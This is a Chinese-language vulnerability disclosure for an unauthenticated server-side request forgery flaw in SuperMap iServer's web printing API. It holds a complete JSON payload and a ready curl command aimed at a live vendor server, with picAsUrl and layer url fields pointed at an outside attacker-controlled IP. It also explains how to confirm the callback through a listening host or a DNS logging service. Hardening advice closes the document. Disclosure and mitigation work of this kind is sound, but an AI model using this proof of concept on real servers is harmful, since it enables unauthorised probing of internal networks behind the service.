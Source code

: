 ## 一、漏洞描述

SuperMap iServer 10i版本开始内置了一个web打印服务，将您在 Web 应用中制作的 Web 内容输出为可打印的文档。

webprinting接口存在未授权访问，且未对输入的picAsUrl/url等未进行白名单限制，导致webpringting会根据用户输入任意url进行请求从而造成ssrf漏洞，可造成内网穿透，危害内网安全。

 

## 二、漏洞涉及版本

 SuperMap iServer  >=10i版本（至最新版本）

 

## 三、漏洞证明

 以超图官网为例，访问

http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs。

上述链接存在未授权访问。

![1](images/1.png) 

1、点击”创建打印任务”按钮，输入payload，其中URL和picAsURL替换成攻击url即可。

```
{
    "layoutOptions": {
        "templateName": "A4_landscape",
        "title": "主标题",
        "subTitle": "副标题",
        "author": "作者",
        "copyright": "版权信息",
        "northArrowOptions": {
        },
        "scaleBarOptions": {
            "scaleText": "比例尺"
        },
        "legendOptions": {
            "title": "图例",
            "customItems": [
                {
                    "name": "重要设置",
                },
                {
                    "name": "河流",
                    "picAsUrl": 
                        "http://39.xx.xx.46:80/test.html"               
                },
                {
                    "name": "主干道",
                    "picAsUrl": 
                        "http://39.xx.xx.46:80/test.html"
                }
            ]
        },
        "littleMapOptions": {
            "center": {
                "x": 12659780.84769,
                "y": 1630935.5331
            },
            "scale": 2.63157894736842E-08,
            "layers": [
                {
                    "layerType": "TILE",
                    "name": "China",
                    "url": "http://39.xx.xx.46:80/test.html"
                }
            ]
        }
    },
    "exportOptions": {
        "format": "pdf",
        "dpi": 96
    },
    "content": {
        "type": "WEBMAP",
        "value": {
            "maxScale": "1:144447.927",
            "level": 4,
            "center": {
                "x": 12024583.8595938,
                "y": 4101942.08146721
            },
            "layers": [
                {
                    "layerType": "TILE",
                    "name": "China",
                    "url": "http://39.xx.xx.46:80/test.html"
                }
            ],
            "description": "",
            "projection": "EPSG:3857",
            "minScale": "1:591658710.909",
            "title": "china_point",
            "version": "2.0.0"
        }
    }
} 
```

CURL命令

```
curl 'http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs.json' \
  -H 'Accept: */*' \
  -H 'Accept-Language: zh-CN,zh;q=0.9' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: _ga=GA1.2.1837213580.1719394854; _ga_DXGT08VXTW=GS1.2.1719394857.1.1.1719395096.0.0.0; Hm_lvt_70fb8344cde640aa0e7a4f593e80b742=1719538116,1719886423' \
  -H 'Origin: http://support.supermap.com:8090' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
  --data-raw $'{\n    "layoutOptions": {\n        "templateName": "A4_landscape",\n        "title": "主标题",\n        "subTitle": "副标题",\n        "author": "作者",\n        "copyright": "版权信息",\n        "northArrowOptions": {\n        },\n        "scaleBarOptions": {\n            "scaleText": "比例尺"\n        },\n        "legendOptions": {\n            "title": "图例",\n            "customItems": [\n                {\n                    "name": "重要设置",\n                },\n                {\n                    "name": "河流",\n                    "picAsUrl": \n                        "http://39.xx.xx.46:80/test.html"               \n                },\n                {\n                    "name": "主干道",\n                    "picAsUrl": \n                        "http://39.xx.xx.46:80/test.html"\n                }\n            ]\n        },\n        "littleMapOptions": {\n            "center": {\n                "x": 12659780.84769,\n                "y": 1630935.5331\n            },\n            "scale": 2.63157894736842E-08,\n            "layers": [\n                {\n                    "layerType": "TILE",\n                    "name": "China",\n                    "url": "http://39.xx.xx.46:80/test.html"\n                }\n            ]\n        }\n    },\n    "exportOptions": {\n        "format": "pdf",\n        "dpi": 96\n    },\n    "content": {\n        "type": "WEBMAP",\n        "value": {\n            "maxScale": "1:144447.927",\n            "level": 4,\n            "center": {\n                "x": 12024583.8595938,\n                "y": 4101942.08146721\n            },\n            "layers": [\n                {\n                    "layerType": "TILE",\n                    "name": "China",\n                    "url": "http://39.xx.xx.46:80/test.html"\n                }\n            ],\n            "description": "",\n            "projection": "EPSG:3857",\n            "minScale": "1:591658710.909",\n            "title": "china_point",\n            "version": "2.0.0"\n        }\n    }\n} ' \
  --insecure
```

![2](images/2.png)



3、在云主机启动80端口或者启用dnslog接口，然后点击创建打印服务，即可在云主机获取对应请求记录。

![3](images/3.png) 

请求DNSlog平台

![4](/Users/cleanmgr/project/vuls/images/4.png) 

## 四、加固建议

1、禁止302跳转，或者没跳转一次都进行校验目的地址是否为内网地址或合法地址。

2、过滤返回信息，验证远程服务器对请求的返回结果，是否合法。

3、禁用高危协议，例如：gopher、dict、ftp、file等，只允许http/https

4、设置URL白名单或者限制内网IP

5、限制请求的端口为http的常用端口，或者根据业务需要治开放远程调用服务的端口

6、catch错误信息，做统一错误信息，避免黑客通过错误信息判断端口对应的服务